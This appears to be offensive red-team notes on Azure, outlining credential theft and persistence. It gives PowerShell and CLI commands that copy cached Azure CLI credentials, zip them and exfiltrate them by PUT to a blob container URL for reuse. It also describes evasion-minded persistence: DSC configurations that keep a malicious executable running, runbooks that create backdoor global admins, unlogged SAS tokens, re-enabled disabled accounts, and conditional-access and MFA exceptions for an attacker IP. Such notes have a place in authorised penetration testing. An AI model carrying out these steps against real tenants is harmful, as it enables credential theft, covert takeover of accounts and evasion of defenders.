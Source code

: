 - Credentials
	- https://www.lares.com/blog/hunting-azure-admins-for-vertical-escalation/
	- Check C:\\Users\\%USERNAME%\.Azure for cached credentials from Az CLI or Powershell cmdlets
		- Bypasses MFA/Oauth/Conditional access
	- NOTE: For OPSEC, prevent Azure context from being automatically saved for a local user:
		- `Disable-AzContextAutosave -Scope CurrentUser`
	- Check validity of existing credentials
		- `Get-AzSubscription`
		- `az account list`
	- Save current Azure context
		- `Save-AzContext -Path azureprofile.json`
		- `7z a azureprofile.zip azureprofile.json`
	- Exfiltrate to Blob Container
		- HTTPie
			- `http PUT "<blob_container_url>" "@azureprofile.zip" "x-ms-blob-type: BlockBlob"`
		- PowerShell
			- `Invoke-WebRequest -Method 'PUT' -Uri '<blob_container_url>' -OutFile 'azureprofile.zip' -Headers @{"x-ms-blob-type"="BlockBlob"}`
	- Download exfiltrated file
		- `Invoke-WebRequest -Uri "<blob_container_url>" -OutFile azureprofile.zip`
	- Extract
		- `7z e azureprofile.zip`
	- Import authentication context
		- `Import-AzContext -Path .\azureprofile.json`
	- Verify
		- `Get-AzResourceGroup`

- Virtual Machines
	- Opening management ports is typically ill-advised, but one option is to specify an Azure service tag as the source when opening the port (such as RDP or SSH).
		- Example: modifying a network security group to allow RDP/SSH from the AzureCloud or AzureCloud.UKSouth service tag looks less suspicious while still allowing connections from any Azure node matching that range
	- Add a managed identity
		- Can be done in Azure Portal
		- Add to system or user
		- Assign additional rights to the managed identity at subscription/management group and/or Azure AD for persistence
		- User-assigned (using an existing user with permissions we want) may be less noisy as it won't need more permissions added afterward.

- Automation account
	- Desired State Configuration (DSC)
		- Reverts systems to a "desired configuration" if that configuration ever should change
		- Simply have your "desired state" be "running my malicious EXE"
		- [Azure Persistence with Desired State Configurations (netspi.com)](https://www.netspi.com/blog/technical/cloud-penetration-testing/azure-persistence-with-desired-state-configurations/)
		- Process:
			- Add target VM as DSC node to Automation account service
			- Upload configuration
			- Compile configuration
			- Assign configuration to VM
			- Wait for DSC to indicate the node is out of compliance and run the correction script
		- Example config:
			- "File should exist at C:\\testfile.exe"
			- "A process should be running from that path"
			- "If either condition is not satisfied, correct it"
		- Very well-hidden in the Azure interface and a lesser-known feature, so it may fly under the radar
	- Automation Run as accounts
		- [Maintaining Azure Persistence via Automation Accounts (netspi.com)](https://www.netspi.com/blog/technical/cloud-penetration-testing/maintaining-azure-persistence-via-automation-accounts/)
		- Example process:
			- Assign Run as account a privileged Azure AD role (Global/User Admin)
			- Create runbook that adds a new user (with known password) to Azure AD tenant
			- Assign new user privileged role in Azure AD
			- Use new user as short-term channel to access Azure AD
		- Consider using a webhook to trigger persistence

- Maintaining access to PaaS services
	- Best targets are data stores or secret stores such as SQL dbs, storage accoutns, container registries, and key vaults
	- Can persist on a public endpoint, but must add an IP address and this is noisy
		- Can add a Firewall exception (such as to Azure SQL) to allow access to "Azure services and resources"; this allows public IPs from other organizations provided they are in Azure. Use with caution and probably only with SQL and not for services with networking restrictions
	- Persistence to platform services
		- Generating Shared Access Signature (SAS) tokens is not explicitly logged in Activity Log - good option for Azure Storage
		- Can always add RBAC role assignments to a backdoor user too

- Azure AD persistence
	- Creating new principals probably raises more alerts than modifying existing
	- Creating a new user
		- Requires `microsoft.directory/users/create` permission (User Administrator, Global Administrator, Directory Writers)
		- For naming, try to emulate the target organization but consider if alternate naming schemes (alternate domains) might bypass MFA (Okta)
		- Review audit logs to determine if the identity you're using is normally used to create Azure AD user accounts
	- Creating service principal
		- ALL non-guest users can create service principals by default
		- If that default permission is disabled, `microsoft.directory/servicePrincipals/create` permission is needed
			- Application Administrator, Application Developer, Cloud Application Administrator
		- Great for bypassing MFA/conditional access/privileged identity management (not blocked or not supported)
	- Creating guest user
		- Depends on "Collaboration restrictions" - might be able to invite users from any domain (outlook, gmail, etc.) or only from specified ones
		- By default, any user or guest user can be used to invite external identities into the tenant
		- Some orgs may place conditional access policies on guest accounts; consider bypassing/disabling
	- Modifying existing identities
		- Look for existing disabled identities, enable them, and reset password.
			- `microsoft.directory/users/enable` - User Administrator, Global Administrator
			- [Azure AD built-in roles - Azure Active Directory - Microsoft Entra | Microsoft Learn](https://learn.microsoft.com/en-us/azure/active-directory/roles/permissions-reference#password-reset-permissions)
		- Add a secret/password to an existing service principal
			- `microsoft.directory/servicePrincipals/credentials/update` - Application Administrator, Hybrid Identity Administrator, Global Administrator
		- Granting privileges to an identity
			- Add to privileged group
				- If assigned-membership type - add identity to a privileged group manually
				- If dynamic user membership type, either modify rules so they include our backdoor identity or modify identity to fit existing rules
			- Assign identity to privileged roles
				- Requires `microsoft.directory/roleAssignments/allProperties/allTasks`
					- Global Administrator, Privileged Role Administrator
				- Consider if Privileged Identity Management (PIM) is in use
					- If so, use an active assignment for the backdoor identity instead of an eligible one that requires activation
				- If Azure Blueprint is in use, must create a definition, publish, and then assign. 
	- Ensuring access by bypassing security policies
		- Create conditional access loopholes for backdoor identities
		- Add attacker IP as trusted in conditional access
		- Add attacker IP as trusted for MFA
		- Use subcription-level persistence to work with existing Azure AD restrictions